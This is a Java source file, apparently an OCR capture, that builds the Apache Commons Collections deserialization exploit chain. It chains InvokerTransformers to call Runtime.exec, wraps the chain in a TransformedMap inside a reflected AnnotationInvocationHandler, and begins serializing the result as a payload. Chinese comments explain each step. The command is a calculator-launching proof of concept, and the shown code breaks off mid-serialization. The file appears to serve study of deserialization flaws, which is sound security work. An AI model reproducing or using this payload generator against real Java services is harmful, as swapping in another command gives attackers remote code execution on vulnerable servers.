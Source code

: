 ```java
import java.util.Map;

/**
 * Creator: yz
 * Date: 2019/12/16
 */
public class CommonsCollectionsTest {

	public static void main(String[] args) {
		String cmd = "open -a Calculator.app";
		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{
						"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
						Object.class, Object[].class}, new Object[]{
						null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);

		// 创建Map对象
		Map map = new HashMap();
		map.put("value", "value");

		// 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
		Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

//		// 遍历Map元素，并调用setValue方法
//		for (Object obj : transformedMap.entrySet()) {
//			Map.Entry entry = (Map.Entry) obj;
//
//			// setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
//			entry.setValue("test");
//		}
//
////		transformedMap.put("v1", "v2");// 执行put也会触发transform

		try {
			// 获取AnnotationInvocationHandler类对象
			Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

			// 获取AnnotationInvocationHandler类的构造方法
			Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

			// 设置构造方法的访问权限
			constructor.setAccessible(true);

			// 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
			// Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
			Object instance = constructor.newInstance(Target.class, transformedMap);

			// 创建用于存储payload的二进制输出流对象
			ByteArrayOutputStream baos = new ByteArrayOutputStream();

			// 创建Java对象序列化输出流对象
			ObjectOutputStream out = new ObjectOutputStream(baos);

```